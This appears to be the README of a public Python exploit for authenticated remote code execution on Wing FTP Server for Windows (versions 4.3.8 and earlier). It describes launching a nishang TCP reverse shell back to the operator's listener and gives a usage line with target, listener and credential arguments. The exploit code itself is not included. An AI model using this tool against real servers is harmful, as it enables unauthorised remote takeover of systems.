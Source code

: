 # Wing-FTP-RCE Authenticated
This is an exploit written in Python3 for the Wing FTP Server running on Windows. This exploit requires Wing FTP's admin panel authentication.

## Tested versions
<=4.3.8

## About the vulnerability
This exploit was discovered by Alex Haynes.

## How to run:
This exploit will invoke a nishang tcp reverse shell on the target. Start your listener before executing.

#Usage:
```
wingrce.py <TARGET> <TARGET_PORT> <LOCAL_IP> <LOCAL_PORT> <USER> <PASSWORD>
```
#Example:
```
wingrce.py 0.0.0.0 8000 127.0.0.1 9001 notcos coolpass
```

